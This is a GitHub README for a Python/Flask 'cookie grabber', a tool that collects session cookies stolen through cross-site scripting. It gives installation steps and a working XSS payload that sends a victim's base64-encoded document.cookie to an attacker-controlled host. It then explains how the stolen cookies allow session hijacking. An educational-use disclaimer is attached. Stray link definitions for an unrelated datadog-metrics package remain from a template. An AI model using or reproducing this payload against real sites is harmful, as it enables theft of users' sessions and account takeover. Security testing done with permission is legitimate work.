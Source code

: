 # Cookie grabber 
> A simple cookie grabber built with Python and Flask.

![License](https://img.shields.io/badge/license-MIT-blue.svg)  
![Python](https://img.shields.io/badge/python-3.x-green.svg)  
![Flask](https://img.shields.io/badge/flask-2.x-red.svg)

A simple cookie grabber built with Python and Flask. This tool is designed to capture cookies from users who are targeted by an XSS (Cross-Site Scripting) attack.
**This tool is for educational and ethical testing purposes only.**


## Installation

```bash
  git clone https://github.com/0273574/cookie_grabber.git
  cd cookie_grabber

  # Create a virtual environment
  python3 -m venv env
  source env/bin/activate

  #  Install dependencies
  pip install -r requirements.txt
```

## Usage example

When a website has a login functionality and contains a form vulnerable to Cross-Site Scripting (XSS), an attacker can exploit this vulnerability by injecting malicious JavaScript code. For example, the attacker could inject the following script:

```javascript
Copy
<script>
  var img = document.createElement("img");
  img.src = "http://ip.addr.of.grabber:443/grab.php?cookie=" + btoa(document.cookie);
  document.body.appendChild(img);
</script>
```
## How It Works

- The script creates an `<img>` element.
- The `src` attribute of the image is set to a URL controlled by the attacker, which includes the victim's cookies (encoded in Base64) as a query parameter.
- When the browser attempts to load the image, it sends an HTTP request to the attacker's server, exfiltrating the victim's session cookies.
- The attacker can then decode the cookies and potentially hijack the victim's session.

## Ethical Considerations

This tool is designed for educational purposes and ethical security testing only. It should only be used in environments where you have explicit permission to test for vulnerabilities. Unauthorized use of this tool to exploit or harm systems, networks, or individuals is illegal and unethical. The developers and contributors of this project are not responsible for any misuse of this tool.

Always ensure you have proper authorization before using this tool in any environment.


Distributed under the XYZ license. See ``LICENSE`` for more information.

[https://github.com/0273574/](https://github.com/0273574/)

## Contributing

1. Fork it (<https://github.com/0273574/cookie_grabber/fork>)
2. Create your feature branch (`git checkout -b feature/fooBar`)
3. Commit your changes (`git commit -am 'Add some fooBar'`)
4. Push to the branch (`git push origin feature/fooBar`)
5. Create a new Pull Request

Please ensure that any contributions adhere to ethical guidelines and are intended for educational or authorized security testing purposes only.
<!-- Markdown link & img dfn's -->
[npm-image]: https://img.shields.io/npm/v/datadog-metrics.svg?style=flat-square
[npm-url]: https://npmjs.org/package/datadog-metrics
[npm-downloads]: https://img.shields.io/npm/dm/datadog-metrics.svg?style=flat-square
[travis-image]: https://img.shields.io/travis/dbader/node-datadog-metrics/master.svg?style=flat-square
[travis-url]: https://travis-ci.org/dbader/node-datadog-metrics
